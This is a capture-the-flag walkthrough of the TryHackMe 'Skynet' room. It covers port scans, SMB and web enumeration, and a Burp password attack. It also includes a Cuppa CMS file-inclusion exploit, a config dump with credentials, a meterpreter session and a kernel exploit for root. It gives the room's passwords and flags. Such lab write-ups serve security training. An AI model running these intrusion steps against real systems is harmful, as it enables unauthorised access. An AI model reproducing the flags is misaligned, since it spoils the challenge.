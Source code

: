 ```yaml
---
title: Skynet
date: 2022-06-22 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, enum4linux, smb, linux, gobuster, burp]
---
```


Hacking a vulnerable Terminator themed Linux machine.

[https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

![0xskar](/assets/skynet.webp)

* * *

## Task 1 - Deploy the Vulerable Machine

1. Initial Nmap Scans

```shell
sudo nmap -Pn -sS -T4 -p- 10.10.70.205 -oN nmap_initial.txt
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
````

```shell
sudo nmap -sC -sV -T4 10.10.70.205 -p22,80,110,139,143,445 -oN nmap_second.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 10:06 PDT
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL PIPELINING CAPA TOP UIDL AUTH-RESP-CODE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities ENABLE Pre-login LITERAL+ ID LOGIN-REFERRALS SASL-IR post-login IMAP4rev1 have OK IDLE more listed LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-22T17:06:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-06-22T12:06:34-05:00
```

## Enum4Linux

- ``enum4linux -a 10.10.70.205 -R 139,445``
- Notes from Scan:

```shell
[+] Got OS info for 10.10.70.205 from srvinfo:                                                          SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu) 
 =======================================( Users on 10.10.70.205 )=======================================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson       Name:   Desc:                                                                                              
user:[milesdyson] rid:[0x3e8]
==================================( Share Enumeration on 10.10.70.205 )=================================
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

        Server               Comment
        ---------            -------
        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

[+] Attempting to map shares on 10.10.70.205                                                            //10.10.70.205/print$   Mapping: DENIED Listing: N/A Writing: N/A                                                                                                 
//10.10.70.205/anonymous        Mapping: OK Listing: OK Writing: N/A
//10.10.70.205/milesdyson       Mapping: DENIED Listing: N/A Writing: N/A

[E] Cant understand response                                                                                                                                            
NT_STATUS_OBJECT_NAME_NOT_FOUND listing 

//10.10.70.205/IPC$     Mapping: N/A Listing: N/A Writing: N/A

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                                                                 
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
```

## SMB Client

- ``smbclient //10.10.70.205/anonymous -U nobody -p 139 --workgroup=SKYNET`` - log into smbclient with user nobody 
- get all the loot ``log1.txt`` is a wordlist maybe something useful.

Connect to miles SMB

```shell
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
mget *
```

## Gobuster

- gobuster dir -u http://10.10.70.205:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 100 -e

```shell
http://10.10.70.205:80/admin                (Status: 301) [Size: 312] [--> http://10.10.70.205/admin/]
http://10.10.70.205:80/css                  (Status: 301) [Size: 310] [--> http://10.10.70.205/css/]  
http://10.10.70.205:80/js                   (Status: 301) [Size: 309] [--> http://10.10.70.205/js/]   
http://10.10.70.205:80/config               (Status: 301) [Size: 313] [--> http://10.10.70.205/config/]
http://10.10.70.205:80/ai                   (Status: 301) [Size: 309] [--> http://10.10.70.205/ai/]    
http://10.10.70.205:80/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.70.205/squirrelmail/]
```


## Answer the questions below

**What is Miles password for his emails?**

- Capture in burpsuite proxy and insert log1.txt for password list ``cyborg007haloterminator``
- here we get milesdysons new samba password ``)s{A&2Z=F^n_E.B``

**What is the hidden directory?**

- checking the /notes/ folder in miles samba i found ``important.txt``
- leads us to ``/45kra24zxs28v3yd``
- which enumetation leads us to ``/45kra24zxs28v3yd/administrator``
- using searchsploit for cuppa we can find vulns 
- ``cat /usr/share/exploitdb/exploits/php/webapps/25971.txt``
- php code injection @ ``/alerts/alertConfigField.php?urlConfig=``

- dump for the cuppa config

```php
<?php 
   class Configuration{
      public $host = "localhost";
      public $db = "cuppa";
      public $user = "root";
      public $password = "password123";
      public $table_prefix = "cu_";
      public $administrator_template = "default";
      public $list_limit = 25;
      public $token = "OBqIPqlFWf3X";
      public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      public $upload_default_path = "media/uploadsFiles";
      public $maximum_file_size = "5242880";
      public $secure_login = 0;
      public $secure_login_value = "";
      public $secure_login_redirect = "";
   } 
?>
```

sql

**What is the vulnerability called when you can include a remote file?**

- remote file inclusion
- ``/etc/issue`` - Ubuntu 16.04.6 LTS 
- ``https://www.exploit-db.com/exploits/45010 ``

**What is the user flag?**

- 7ce5c2109a40f958099283600a9ae807

**What is the root flag?**

1. run linpeas.sh for enumeration

```shell
meterpreter > sysinfo
Computer     : 10.10.221.179
OS           : Ubuntu 16.04 (Linux 4.8.0-58-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

2. compile and run https://www.exploit-db.com/exploits/44654
3. travel to /root/

- 3f0372db24753accc7179a282cd6a949


* * * 